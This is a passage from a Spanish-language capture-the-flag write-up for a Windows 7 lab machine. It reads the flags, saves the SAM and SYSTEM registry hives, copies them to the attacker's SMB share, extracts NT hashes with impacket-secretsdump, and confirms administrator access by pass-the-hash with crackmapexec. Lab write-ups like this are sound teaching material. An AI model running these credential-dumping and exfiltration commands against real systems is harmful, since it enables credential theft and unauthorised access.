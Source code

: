 ```null
C:\Windows\system32>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
bafa290471c6e56095265a17fcb42ff0

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
7cf5d9c002868b34a8d815eda9905bda
```

# Técnicas de Persistencia (EXTRA)

### Dumpeo hashes NT

```null
C:\Windows\system32>reg save HKLM\system system.bak
reg save HKLM\system system.bak
The operation completed successfully.

C:\Windows\system32>reg save HKLM\sam sam.bak
reg save HKLM\sam sam.bak
The operation completed successfully.
```

Ambos archivos los transfiero a mi equipo por SMB

```null
C:\Windows\system32>copy .\system.bak \\10.10.16.3\shared\system.bak
copy .\system.bak \\10.10.16.3\shared\system.bak
        1 file(s) copied.

C:\Windows\system32>copy .\sam.bak \\10.10.16.3\shared\sam.bak
copy .\sam.bak \\10.10.16.3\shared\sam.bak
        1 file(s) copied.
```

Con ```impacket-secretsdump``` extraigo los hashes NT

```null
impacket-secretsdump -system system.bak -sam sam.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xa749692f1dc76b46d7141ef778aa6bef
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
[*] Cleaning up... 
```

Lo valido con ```crackmapexec```

```null
crackmapexec smb 10.10.10.40 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc'
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
SMB         10.10.10.40     445    HARIS-PC         [+] haris-PC\Administrator:cdf51b162460b7d5bc898f493751a0cc (Pwn3d!)
```
